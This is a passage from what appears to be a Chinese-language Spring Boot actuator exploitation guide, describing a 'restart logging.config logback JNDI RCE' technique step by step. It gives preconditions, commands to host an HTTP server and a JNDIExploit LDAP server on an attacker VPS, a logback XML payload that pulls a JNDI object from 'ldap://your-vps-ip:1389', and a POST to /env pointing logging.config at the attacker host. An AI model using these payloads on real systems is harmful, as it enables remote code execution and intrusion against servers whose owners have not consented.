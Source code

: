 发送完 payload 后触发漏洞：

```url
http://127.0.0.1:9097/product/list
```

### 0x09：restart logging.config logback JNDI RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 xml 语法内容的文件，会导致程序异常退出
- ⚠️ JNDI 服务返回的 object 需要实现 `javax.naming.spi.ObjectFactory` 接口，否则会导致程序异常退出

#### 利用方法

##### 步骤一：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的  `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```

##### 步骤二：托管恶意 ldap 服务及代码

参考[文章](https://landgrey.me/blog/21/)，修改 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 并启动（也可以使用其他方法）：

```bash
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```

##### 步骤三：设置 logging.config 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```
